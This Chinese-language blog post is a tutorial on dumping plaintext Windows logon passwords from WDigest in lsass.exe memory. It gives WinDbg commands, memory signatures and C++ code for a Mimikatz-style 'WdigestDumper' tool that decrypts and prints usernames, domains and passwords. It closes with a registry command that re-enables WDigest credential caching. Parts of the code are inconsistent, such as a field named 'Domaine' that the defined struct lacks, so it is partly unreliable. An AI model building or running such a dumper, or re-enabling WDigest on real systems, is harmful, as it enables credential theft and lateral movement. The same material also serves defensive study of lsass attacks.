 ```yaml
---
title: Sekurlsa - 如何从 Wdigest 中转储用户登录凭据
date: 2023-02-06 23:26:00 +0800
author: WHOAMI
toc: true
categories: ["Windows Security"]
tags: ["Windows", "Lsass"]
layout: post
---
```


## 0. 基础知识

在 Windows Server 2008 R2 之前，系统默认情况下会缓存 WDigest 凭据。在启用 WDigest 的情况下，用户进行交互式身份验证的域名、用户名和明文密码等信息会存储在 LSA 进程内存中，其中明文密码经过 WDigest 模块调用后，会对其使用对称加密算法进行加密。

类似于上一节中的 `LogonSessionList` 全局变量，在 wdigest.dll 模块中存在一个全局变量 `l_LogSessList`，用来存储上述的登录会话信息。同样的，该变量也是一个链表结构，我们可以使用 WinDbg 来遍历该链表，如下图所示。

```c++
!list -x "dS @$extret" poi(wdigest!l_LogSessList)
```

![image-20230122181017142](/assets/posts/2023-02-06-sekurlsa-how-to-dump-user-login-credentials-from-wdigest/image-20230122181017142.png)

这些表项对应的结构包含如下字段：

```c++
typedef struct _WDIGEST_LIST_ENTRY {
	struct _WDIGEST_LIST_ENTRY* Flink;
	struct _WDIGEST_LIST_ENTRY* Blink;
	ULONG	UsageCount;
	struct _WDIGEST_LIST_ENTRY* This;
	LUID LocallyUniqueIdentifier;
} WDIGEST_LIST_ENTRY, * PWDIGEST_LIST_ENTRY;
```

在相对于该结构首部指定偏移量的位置，存在 3 个 `LSA_UNICODE_STRING` 字段，如下所示，可以为这 3 个字段创建一个新的数据结构 `GENERIC_PRIMARY_CREDENTIAL`。具体的偏移量如下所示。

```c++ 
typedef struct _GENERIC_PRIMARY_CREDENTIAL {
	LSA_UNICODE_STRING UserName;      // 用户名，偏移量：0x30, 48
	LSA_UNICODE_STRING DomainName;    // 域名，偏移量：0x40, 64
	LSA_UNICODE_STRING Password;      // 加密后的明文密码，偏移量：0x50, 80
} GENERIC_PRIMARY_CREDENTIAL, * PGENERIC_PRIMARY_CREDENTIAL;
```

其中 UserName 的偏移量为 `0x30`，我们可以通过 WinDBG 遍历出所有的用户名，如下图所示。

```c++
!list -x "dS @$extret+0x30" poi(wdigest!l_LogSessList)
```

![image-20230122185714915](/assets/posts/2023-02-06-sekurlsa-how-to-dump-user-login-credentials-from-wdigest/image-20230122185714915.png)

在偏移量为 `0x40` 处获取域名，如下图所示。

```c++
!list -x "dS @$extret+0x40" poi(wdigest!l_LogSessList)
```

![image-20230122185751079](/assets/posts/2023-02-06-sekurlsa-how-to-dump-user-login-credentials-from-wdigest/image-20230122185751079.png)

为了能够在 `l_LogSessList` 中提取出用户明文密码，首先需要从 lsass.exe 进程中计算出加载的 wdigest.dll 模块的基地址，然后在该模块中定位该变量，最后从 `l_LogSessList` 中解密用户凭据。至于如何找这个变量，同样可以采用签名扫描的方法。这里使用到的特征码如下：

```c++
BYTE PTRN_WIN5_LogSessHandlerPasswdSet[] = { 0x48, 0x3b, 0xda, 0x74 };
BYTE PTRN_WIN6_LogSessHandlerPasswdSet[] = { 0x48, 0x3b, 0xd9, 0x74 };
PATCH_GENERIC WDigestReferences[] = {
	{WIN_BUILD_XP,		{sizeof(PTRN_WIN5_LogSessHandlerPasswdSet),	PTRN_WIN5_LogSessHandlerPasswdSet},	{0, NULL}, {-4, 36}},
	{WIN_BUILD_2K3,		{sizeof(PTRN_WIN5_LogSessHandlerPasswdSet),	PTRN_WIN5_LogSessHandlerPasswdSet},	{0, NULL}, {-4, 48}},
	{WIN_BUILD_VISTA,	{sizeof(PTRN_WIN6_LogSessHandlerPasswdSet),	PTRN_WIN6_LogSessHandlerPasswdSet},	{0, NULL}, {-4, 48}},
};
```

此外，用户的明文密码属于机密信息，因此也经过 `LsaProtectMemory()` 函数调用后进行对称加密。为了对获取到的加密密码进行解密，同样需要利用与上节相同的方法获取加密密钥和初始化向量。

下面笔者参考 Mimikatz 的代码，通过 C/C++ 编写一个名为 WdigestDumper 的工具，用来提取 lsass.exe 进程中的明文密码。由于篇幅限制仅描述关键代码部分，相关头文件定义以及各个函数的定义位置请读者自行实现。此外，本节的大部分代码与上一节 MSV1_0 的分析相同，在此笔者只从主要的变化点开始讲解。

## 1 打印用户凭据信息

### 1.1 处理用户凭据结构

在枚举完 `LogonSessionList` 中的会话信息后，由 `LsaLogonData()` 函数调用自定义函数 `WDigestEnumerateCreds()` 来处理 wdigest.dll 模块中的用户凭据信息，如下所示。

```c++
BOOL LsaLogonData(PBASIC_SECURITY_LOGON_SESSION_DATA pSessionData)
{
	BOOL status = FALSE;
	if (pSessionData->LogonType != Network)
	{
		PrintLogonData(pSessionData);

		wprintf(L"\n[+] Wdigest Credential : ");
		if (Lsass_Msv1_0_Package.Module.isPresent && Lsass_Msv1_0_Package.isValid)
		{
			WDigestEnumerateCreds(pSessionData->LogonId);
			wprintf(L"\n>>>>=================================================================\n");

		}
	}
	return status;
}
```

下面编写 `WDigestEnumerateCreds()` 函数，其内部首先调用 `LsaSearchGeneric()` 函数来定位 `l_LogSessList` 变量，并将包含凭据信息的 `GENERIC_PRIMARY_CREDENTIAL` 相对于 `WDIGEST_LIST_ENTRY` 结构的起始偏移量赋值给 `offsetWDigestPrimary`，如下所示。

```c++
PWDIGEST_LIST_ENTRY l_LogSessList = NULL;
LONG offsetWDigestPrimary = 0;

BOOL WDigestEnumerateCreds(PLUID LogonId)
{
	BOOL status = FALSE;
	PVOID pStruct;
	GENERIC_PRIMARY_CREDENTIAL primaryCredentials;
	MEMORY_ADDRESS lsassMemory;

	if (Lsass_WDigest_Package.Module.isPresent)
	{
		if (LsaSearchGeneric(&cLsass, &Lsass_WDigest_Package.Module, WDigestReferences, ARRAYSIZE(WDigestReferences), (PVOID*)&l_LogSessList, NULL, &offsetWDigestPrimary)
			&& Lsass_WDigest_Package.Module.isInit)
		{
			if (ReadProcessMemory(cLsass.hProcess, l_LogSessList, &pStruct, sizeof(PVOID), NULL))
			{
				while (pStruct != l_LogSessList)
				{
					if (lsassMemory.address = LocalAlloc(LPTR, offsetWDigestPrimary + sizeof(GENERIC_PRIMARY_CREDENTIAL)))
					{
						if (ReadProcessMemory(cLsass.hProcess, pStruct, lsassMemory.address, offsetWDigestPrimary + sizeof(GENERIC_PRIMARY_CREDENTIAL), NULL))
						{
							if (SecEqualLuid(LogonId, (PLUID)((PBYTE)lsassMemory.address + FIELD_OFFSET(WDIGEST_LIST_ENTRY, LocallyUniqueIdentifier))))
							{
								primaryCredentials = *(PGENERIC_PRIMARY_CREDENTIAL)((PBYTE)lsassMemory.address + offsetWDigestPrimary);
								WDigestCredsOutput(&primaryCredentials);
							}
							pStruct = ((PLIST_ENTRY)lsassMemory.address)->Flink;
						}
						else
							break;
					}
					
				}
			}
		}
	}

	return status;
}
```

然后，遍历整个`l_LogSessList` 链表，并通过 `SecEqualLuid()` 函数对 `l_LogSessList` 中的 `LocallyUniqueIdentifier` 与 `LogonSessionList` 中的登录 ID 进行比较，如果相等，则进入 `WDigestCredsOutput()` 函数打印凭据信息。

### 1.2 打印用户明文凭据

最后编写 `WDigestCredsOutput()` 函数，该函数先打印 WDigest 凭据中的用户名和域名，最后使用 `LsaUnprotectMemory()` 函数对凭据中的用户密码进行解密后输出明文密码，如下所示。

```c++
void WDigestCredsOutput(PGENERIC_PRIMARY_CREDENTIAL mesCreds)
{
	if (mesCreds)
	{
		if (mesCreds->UserName.Buffer || mesCreds->Domaine.Buffer || mesCreds->Password.Buffer)
		{
			if (GetUnicodeString(&mesCreds->UserName, cLsass.hProcess))
			{
				wprintf(L"\n\t* UserName     : %wZ", mesCreds->UserName);
			}
			if (GetUnicodeString(&mesCreds->Domaine, cLsass.hProcess))
			{
				wprintf(L"\n\t* Domain       : %wZ", mesCreds->Domaine);
			}
			if (GetUnicodeString(&mesCreds->Password, cLsass.hProcess))
			{
				if (LsaUnprotectMemory(mesCreds->Password.Buffer, mesCreds->Password.MaximumLength))
				{
					wprintf(L"\n\t* Password     : ");
					if (IsTextUnicode(mesCreds->Password.Buffer, mesCreds->Password.Length, NULL))
					{
						wprintf(L"%wZ", mesCreds->Password);
					}
					else
					{
						PrintfHex(mesCreds->Password.Buffer, mesCreds->Password.Length);
					}
					
				}

			}
		}
	}
}
```

至此，WdigestDumper 的主要代码编写完成。

## 2. 运行效果演示

以管理员权限运行 WdigestDumper，即可从系统 lsass.exe 进程内存中提取出用户的明文密码，如下图所示。

```
WdigestDumper.exe
```

![image-20230122194306895](/assets/posts/2023-02-06-sekurlsa-how-to-dump-user-login-credentials-from-wdigest/image-20230122194306895.png)

为了防止用户的明文密码在内存中泄露，微软在 2014 年 5 月发布了 KB2871997 补丁，关闭了 Wdigest 功能，无法从内存中获取明文密码。并且，在 Windows Server 2012 及以上版本中都默认关闭 Wdigest 功能，无法从内存中获取明文密码。但是可以通过修改注册表重新开启 Wdigest，如下所示。

```
# Enable Wdigest
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
# Disable Wdigest
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```
